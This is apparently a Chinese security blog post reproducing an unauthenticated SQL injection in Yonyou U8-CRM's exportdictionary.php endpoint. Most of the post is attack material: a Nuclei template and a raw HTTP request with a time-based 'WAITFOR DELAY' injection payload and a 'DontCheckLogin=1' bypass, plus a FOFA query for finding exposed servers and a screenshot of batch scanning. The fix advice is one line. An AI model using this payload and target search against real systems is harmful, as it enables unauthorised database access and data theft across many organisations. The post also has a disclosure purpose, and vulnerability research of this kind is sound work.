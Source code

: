 #  用友U8-CRM的exportdictionary.php接口处存在SQL注入漏洞【漏洞复现|附nuclei-POC】   
原创 kingkong  脚本小子   2024-08-19 14:42  
  
****  
**免责声明：**  
**本文内容仅供技术学习参考，请勿用于违法破坏。利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，与作者无关。如有侵权请联系删除。**  
  
****  
****  
**漏洞描述：**  
  
用友U8-CRM的/devtools/tools/exportdictionary.php接口处存在SQL注入漏洞。这可能导致泄露敏感数据、破坏数据库完整性，甚至获取对数据库的完全控制。  
  
  
01  
  
—  
  
**Nuclei POC**  
  
```
id: yongyouU8_CRM-exportdictionary_php-SQL
info:
  name: 用友U8-CRM接口exportdictionary.php存在SQL注入漏洞
  author: kingkong
  severity: high
  metadata:
    fofa-query: body="用友U8CRM"

http:
  - raw:
      - |
        GET /devtools/tools/exportdictionary.php?DontCheckLogin=1&value=1%27;WAITFOR+DELAY+%270:0:3%27-- HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
        Cookie: PHPSESSID=bgsesstimeout-

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
          - "duration>=3  && duration<=6 && status_code==200"
```  
  
  
02  
  
—  
  
搜索语法  
```
FOFA：body="用友U8CRM"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohnctlKuk0fxhwEJQBanfs52eL8UjmFbIzDZFwC83O5pvWgOS7vw8Nks7Zb5oBexl1yz9Qwwaq2rQwg/640?wx_fmt=png&from=appmsg "")  
  
界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohnctlKuk0fxhwEJQBanfs52eyrrMUQwGZiaR065iatHqyKh4VtA2MEd2MSsRgPms3gy3vFHj1yvC2bhw/640?wx_fmt=png&from=appmsg "")  
  
03  
  
—  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohnctlKuk0fxhwEJQBanfs52eEHhGPqesTFJob3POlS3g81fQrvRFF4LEyubNrHeFBBgbnibibdbnsSQw/640?wx_fmt=png&from=appmsg "")  
漏洞检测POC  
```
GET /devtools/tools/exportdictionary.php?DontCheckLogin=1&value=1%27;WAITFOR+DELAY+%270:0:3%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Cookie: PHPSESSID=bgsesstimeout-


```  
  
  
neclei批量检测截图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohnctlKuk0fxhwEJQBanfs52eV9Jthf9WeAhk9QhHRyygDwvErGaqSbS0QBZ9DKbOibXU84XZbqCDxqA/640?wx_fmt=png&from=appmsg "")  
  
  
04  
  
—  
  
修复建议  
  
  
更新当前系统或软件至最新版  
  
  
  
  
